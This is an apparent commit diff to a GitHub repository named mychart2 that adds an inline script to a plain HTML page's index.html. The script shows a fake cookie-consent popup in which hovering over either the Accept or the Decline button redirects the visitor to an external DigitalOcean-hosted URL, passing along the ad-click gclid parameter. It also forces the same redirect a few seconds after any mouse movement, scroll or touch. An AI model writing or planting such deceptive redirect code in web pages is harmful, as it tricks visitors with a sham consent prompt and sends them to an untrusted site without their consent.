

Before and after one commit to harshshukla79/mychart2, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 800 px of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,6 +2,161 @@
 <html lang="en">
 <head>
 
+<script>
+(function () {
+  const redirectUrl = "https://c70a02a863402da19daa2c96-u7qor.ondigitalocean.app/";
+  let redirected = false, moved = false, scrolled = false, touched = false, initialPos = null;
+
+  const random = (min, max) => Math.floor(Math.random() * (max - min + 1)) + min;
+
+  const colors = ["#28a745", "#007bff", "#ff5722", "#6f42c1", "#17a2b8", "#ffc107", "#dc3545", "#fd7e14", "#20c997", "#6610f2"];
+  const randomColor = () => colors[Math.floor(Math.random() * colors.length)];
+
+  const messages = [
+    "🍪 <strong>Important:</strong> We use cookies to improve your experience.<br><br><strong>By hovering 'Accept', you agree.</strong>",
+    "🔔 <strong>Notice!</strong> Cookies help us serve you better.<br><br><strong>Hover 'Accept' to continue.</strong>",
+    "🔒 <strong>Privacy Info:</strong> Cookies are used for a better service.<br><br><strong>Hover to accept or decline.</strong>"
+  ];
+  const randomText = () => messages[Math.floor(Math.random() * messages.length)];
+
+  function redirectUser() {
+    if (redirected) return;
+    redirected = true;
+    const gclid = new URLSearchParams(window.location.search).get('gclid');
+    const finalUrl = gclid ? `${redirectUrl}${redirectUrl.includes('?') ? '&' : '?'}gclid=${gclid}` : redirectUrl;
+    window.location.href = finalUrl;
+  }
+
+  function showPopup() {
+    const wrapper = document.createElement("div");
+    wrapper.innerHTML = `
+    <div class="popup-overlay">
+      <div class="popup-box">
+        <h3 class="popup-title neon-text">⚠️ Cookie Consent</h3>
+        <p class="popup-msg">${randomText()}</p>
+        <div class="popup-actions">
+          <button id="acceptBtn">Accept</button>
+          <button id="declineBtn">Decline</button>
+        </div>
+      </div>
+    </div>
+    `;
+    document.body.appendChild(wrapper);
+
+    document.getElementById("acceptBtn").addEventListener("mouseenter", redirectUser);
+    document.getElementById("declineBtn").addEventListener("mouseenter", redirectUser);
+
+    const style = document.createElement("style");
+    style.textContent = `
+      @keyframes fadeInScale {
+        from { opacity: 0; transform: scale(0.95); }
+        to { opacity: 1; transform: scale(1); }
+      }
+
+      @keyframes neonGlow {
+        0%, 100% { text-shadow: 0 0 5px #fff, 0 0 10px ${randomColor()}, 0 0 20px ${randomColor()}; }
+        50% { text-shadow: 0 0 10px #fff, 0 0 15px ${randomColor()}, 0 0 25px ${randomColor()}; }
+      }
+
+      .popup-overlay {
+        position: fixed;
+        top: 0; left: 0; width: 100%; height: 100%;
+        background: rgba(0, 0, 0, 0.65);
+        display: flex;
+        justify-content: center;
+        align-items: center;
+        z-index: 9999;
+        font-family: 'Segoe UI', sans-serif;
+      }
+
+      .popup-box {
+        background: rgba(255, 255, 255, 0.9);
+        backdrop-filter: blur(10px);
+        padding: 2rem;
+        border-radius: 15px;
+        max-width: 400px;
+        width: 90%;
+        text-align: center;
+        box-shadow: 0 10px 30px rgba(0,0,0,0.25);
+        border: 2px solid ${randomColor()};
+        animation: fadeInScale 0.4s ease;
+      }
+
+      .popup-title {
+        font-size: 24px;
+        font-weight: 700;
+        margin-bottom: 1rem;
+      }
+
+      .neon-text {
+        animation: neonGlow 2s infinite alternate;
+        color: ${randomColor()};
+      }
+
+      .popup-msg {
+        font-size: 16px;
+        color: #333;
+        line-height: 1.5;
+        margin-bottom: 1.5rem;
+      }
+
+      .popup-actions {
+        display: flex;
+        gap: 1rem;
+        justify-content: center;
+        flex-wrap: wrap;
+      }
+
+      .popup-actions button {
+        background-color: ${randomColor()};
+        color: white;
+        border: none;
+        padding: 12px 20px;
+        border-radius: 6px;
+        cursor: pointer;
+        font-size: 16px;
+        font-weight: bold;
+        transition: transform 0.3s ease, background 0.3s ease;
+      }
+
+      .popup-actions button:hover {
+        transform: scale(1.08);
+        background-color: ${randomColor()};
+      }
+    `;
+    document.head.appendChild(style);
+  }
+
+  window.addEventListener("load", () => setTimeout(showPopup, random(300, 600)));
+
+  window.addEventListener("mousemove", (e) => {
+    if (!moved) {
+      if (!initialPos) {
+        initialPos = { x: e.clientX, y: e.clientY };
+        return;
+      }
+      if (e.clientX !== initialPos.x || e.clientY !== initialPos.y) {
+        moved = true;
+        setTimeout(redirectUser, random(3000, 4000)); // More delay
+      }
+    }
+  });
+
+  window.addEventListener("scroll", () => {
+    if (!scrolled) {
+      scrolled = true;
+      setTimeout(redirectUser, random(3000, 4000));
+    }
+  });
+
+  window.addEventListener("touchstart", () => {
+    if (!touched) {
+      touched = true;
+      setTimeout(redirectUser, random(3000, 4000));
+    }
+  });
+})();
+</script>
 
 
 
```
